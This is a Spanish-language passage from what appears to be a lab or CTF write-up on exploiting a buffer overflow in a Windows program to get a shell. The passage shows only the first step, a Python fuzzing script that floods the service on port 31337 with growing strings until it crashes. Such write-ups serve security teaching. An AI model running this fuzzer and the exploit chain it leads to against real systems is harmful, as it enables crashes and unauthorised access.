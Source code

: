 Teniendo el ejecutable podremos ver que se ingresa un texto en el cual podremos realizar un desbordamiento de buffer. Para esto necesitaremos un Windows 7 en la cual instalaremos el `Immunity Debugger` y así hacer pruebas para encontrar los badcharacters para luego tener control del flujo del problema y así obtener una shell.


![20231114232211.png](20231114232211.png)

#### Fuzzing

Para encontrar el numero de bytes exacto que ocasiona el desbordamiento de buffer realizaremos el siguiente script  en python3

```python
#!/usr/bin/env python3
from pwn import *
import sys
import socket
import signal
def crtl_C(signal,frame ):
	print(" [!] Exting...")
	sys.exit(0)
signal.signal(signal.SIGINT, crtl_C)
ip = "192.168.98.22"
port = 31337
timeout=5
string="A" * 100
while True:
	try:
		with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
			s.settimeout(timeout)
			s.connect((ip, port))
			print("Fuzzing with {} bytes".format(len(string)))
			s.sendall((string+"\r\n").encode('utf-8'))
			s.recv(1024)
			s.close()
	except Exception as e:
		print(e)
		print("Fuzzing crashed at {} bytes".format(len(string)))
		sys.exit(0)
	string += 10 * "A"
	time.sleep(1)

```